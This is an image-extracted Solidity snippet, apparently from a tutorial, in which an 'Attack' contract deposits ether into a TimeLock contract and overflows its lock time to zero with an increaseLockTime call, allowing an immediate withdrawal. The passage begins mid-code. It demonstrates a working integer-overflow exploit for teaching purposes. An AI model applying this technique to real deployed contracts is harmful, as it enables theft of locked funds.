 ```solidity
    }
}

contract Attack {
    TimeLock timeLock;
    
    constructor(TimeLock _timeLock) public {
        timeLock = TimeLock(_timeLock);
    }
    
    fallback() external payable {
        
    }
    
    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        //t == current lock timeLock//find x such that 
        //x + t = 2**256 = 0
        timeLock.increaseLockTime(
            //a huge number
            uint(-timeLock.lockTime(address(this)))
            );
            timeLock.withdraw();
    }
}
```
